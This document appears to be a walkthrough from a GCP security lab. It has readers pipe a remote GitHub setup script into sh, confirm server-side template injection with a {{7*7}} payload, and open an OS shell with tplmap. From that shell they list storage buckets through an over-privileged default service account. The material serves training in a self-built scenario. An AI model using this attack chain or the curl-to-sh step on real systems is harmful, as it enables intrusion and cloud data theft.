






# Privilege Escalation in Compute Engine


Inorder to start the scenario go to the `scenario-6` folder by typing the below command in the `GCLOUD SHELL`

```bash
cd scenario-6
```
Start the Scenario by typing the below command in the `GCLOUD Shell`


``` bash
./create-scenario-6.sh
```

> Note: It takes some time , so be patient 🧘‍♂️ Note down the ip


Now Go to the `Compute Engine` -> `VMInstance`



Now click on the `ssh` , the New browser window will be open `ssh-terminal`  



Type the below command in the terminal 

```bash 
curl https://raw.githubusercontent.com/JOSHUAJEBARAJ/hack/main/setup.sh | sh 
```

> Python Server will be started 


## Scenario Info

According to Google [Documentation](https://cloud.google.com/iam/docs/service-accounts) 

**A service account is a special kind of account used by an application or a virtual machine (VM) instance, not a person. Applications use service accounts to make authorized API calls, authorized as either the service account itself, or as Google Workspace or Cloud Identity users through domain-wide delegation.**


The default service account created with the VM Instance doesn't follow the least privilege principle be default its able to access the Google cloud bucket

Now Go to the below url

```
http://<ip-address>/page?name=Joshua
```


Now try to use the different paramater 

```bash 
```


Check whether the application is vulnerable to the template Injection

```
http://<ip>/page?name={{7*7}}
```

You could see the application is vulnerable to [template-Injection](https://owasp.org/www-project-web-security-testing-guide/v41/4-Web_Application_Security_Testing/07-Input_Validation_Testing/18-Testing_for_Server_Side_Template_Injection).



### Solution

To exploit this vulnerability we are going to use the tool called [tplmap](https://github.com/epinna/tplmap)


```
./tplmap.py -u 'http://<ip>/page?name=John'
```

you will get the output like this 



Now try to get the shell in the application 
```
./tplmap.py -u 'http://<ip>/page?name=jebaraj' --os-shell
```
Now inside the shell try to list the bucket 
```
gsutil ls 
```

You will see the all buckets present in the project 
### Clean up


To clean up the `Scenario` type the below command in the `GCLOUD Shell`

``` bash
./delete-scenario-6.sh
```

